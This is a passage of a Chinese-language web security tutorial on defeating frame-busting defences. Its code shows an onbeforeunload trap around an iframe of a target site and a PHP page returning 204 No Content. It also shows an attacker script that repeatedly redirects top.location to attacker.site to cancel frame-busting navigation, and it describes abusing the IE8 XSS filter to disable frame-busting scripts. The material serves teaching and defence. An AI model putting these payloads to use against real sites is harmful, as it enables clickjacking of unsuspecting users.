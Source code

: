 * 攻击者可以通过在顶层页面注册卸载事件来利用此攻击，以下为例代码：

```html
<h1>www.fictitious.site</h1>
<script>
    window.onbeforeunload = function() {
        return " 您想离开fictitious.site吗？";
    }
</script>
<iframe src="http://目标网站">
```

* 上述技术需要用户交互，但无需提示用户即可达到相同效果。为此，攻击者必须在`onBeforeUnload`事件处理程序中反复提交（例如每毫秒一次）导航请求至响应带有`"HTTP/1.1 204 No Content"`头的网页，以自动取消传入的导航请求。

204页面：

```php
<?php
    header("HTTP/1.1 204 No Content");
?>
```

攻击者页面：

```js
<script>
    var prevent_bust = 0;
    window.onbeforeunload = function() {
        prevent_bust++;
    };
    setInterval(
        function() {
            if (prevent_bust > 0) {
                prevent_bust -= 2;
                window.top.location = "http://attacker.site/204.php";
            }
        }, 1);
</script>
<iframe src="http://目标网站">
```

## XSS过滤器

### IE8 XSS过滤器

此过滤器可以查看通过浏览器的每个请求和响应的所有参数，并将它们与一组正则表达式进行比较以查找反射型XSS尝试。当过滤器识别出可能的XSS攻击时，它会禁用页面中的所有内联脚本，包括帧破坏脚本（外部脚本同样会被禁用）。因此，攻击者可以通过将帧破坏脚本的开头插入请求参数中来诱导误报。

```html
<script>
    if ( top != self ) {
        top.location = self.location;
    }
</script>
```
